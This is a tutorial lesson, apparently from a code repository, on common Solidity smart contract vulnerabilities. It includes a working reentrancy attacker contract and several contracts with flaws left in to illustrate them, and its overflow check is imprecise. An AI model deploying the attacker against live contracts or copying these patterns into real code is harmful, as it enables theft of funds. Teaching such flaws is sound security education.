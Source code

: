 ## Lesson 2: Common Smart Contract Vulnerabilities

### Overview

In this lesson, we will explore common vulnerabilities in smart contracts that attackers often exploit. Understanding these vulnerabilities is key to developing secure smart contracts and protecting decentralized applications from attacks.

## Reentrancy

Reentrancy is a vulnerability that occurs when a smart contract's function is called recursively before the previous invocation of the function has completed. This can lead to unexpected behavior, such as the manipulation of contract state and the unauthorized withdrawal of funds.

```solidity
// Victim Contract
pragma solidity ^0.6.0;

contract Victim {
    mapping(address => uint256) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed.");
        balances[msg.sender] = 0;
    }
}

// Attacker Contract
pragma solidity ^0.6.0;

import "./Victim.sol";

contract Attacker {
    Victim public victim;
    
    constructor(address victimAddress) public {
        victim = Victim(victimAddress);
    }

    function attack() external payable {
        victim.deposit{value: msg.value}();
        victim.withdraw();
    }

    fallback() external payable {
        if (address(victim).balance >= msg.value) {
            victim.withdraw();
        }
    }
}

```


### Integer Overflow and Underflow

Integer overflow and underflow occur when a variable's value exceeds its maximum or minimum limit, causing it to wrap around to an unintended value. This can lead to unexpected behavior in smart contracts, such as the manipulation of token balances or the bypassing of access controls.

```solidity
pragma solidity ^0.6.0;

contract IntegerOverflowUnderflow {
    uint256 public counter;

    function increment(uint256 value) public {
        uint256 oldCounter = counter;

        // Potential problem: If counter + value exceeds the maximum possible value for uint256,
        // it will wrap around to a smaller value, causing an integer overflow.
        counter += value;

        // This check mitigates the integer overflow problem by ensuring the new counter value is greater than the old one.
        require(counter > oldCounter, "Integer overflow.");
    }

    function decrement(uint256 value) public {
        uint256 oldCounter = counter;

        // Potential problem: If counter - value goes below 0, it will wrap around to a large value,
        // causing an integer underflow.
        counter -= value;

        // This check mitigates the integer underflow problem by ensuring the new counter value is smaller than the old one.
        require(counter < oldCounter, "Integer underflow.");
    }
}
```

## Race Conditions

Race conditions occur when the behavior of a smart contract depends on the relative timing of events, such as external calls or transactions. Attackers can exploit race conditions to manipulate contract state, interfere with intended functionality, or gain unauthorized access to resources.

```solidity
pragma solidity ^0.6.0;

contract RaceCondition {
    uint256 public value;

    function setValue(uint256 newValue) external {
        // Potential problem: External calls could lead to race conditions
        someExternalCall();

        // Another user may change the value before the current call is completed
        value = newValue;
    }

    function someExternalCall() internal {
        // ...
    }
}
```

## Timestamp Dependency

Smart contracts that rely on timestamps for critical functionality, such as random number generation or time-based access control, can be vulnerable to manipulation by miners who can influence block timestamps. This can lead to unpredictable behavior and potential exploits.

```solidity
pragma solidity ^0.6.0;

contract TimestampDependency {
    uint256 public randomNumber;

    function generateRandomNumber() external {
        // Potential problem: Using block.timestamp for randomness is not secure
        // Miners can manipulate the timestamp to some extent, making the generated random number predictable
        randomNumber = uint256(keccak256(abi.encodePacked(block.timestamp))) % 100;
    }
}

```

## Front-Running

Front-running is a type of attack where an attacker observes a pending transaction and then submits their own transaction with a higher gas price, causing it to be mined before the original transaction. This can be used to manipulate prices on decentralized exchanges or disrupt other smart contract functionality.

```solidity
// This is a simple illustration of a contract where front-running could occur.
pragma solidity ^0.6.0;

contract FrontRunning {
    uint256 public value;
    uint256 public highestBid;

    function bid(uint256 newValue) external {
        // Potential problem: Front-running can occur here.
        // Attackers can observe pending transactions and submit their own transaction with a higher gas price,
        // getting their transaction mined before the original one, effectively outbidding the original bidder.
        require(newValue > highestBid, "Bid is not higher than the current highest bid.");

        highestBid = newValue;
    }
}
```

## Conclusion

Understanding these common smart contract vulnerabilities and their potential consequences is crucial for developing secure decentralized applications. In the next lesson, we will cover secure coding practices that help mitigate these vulnerabilities and protect smart contracts from exploits.
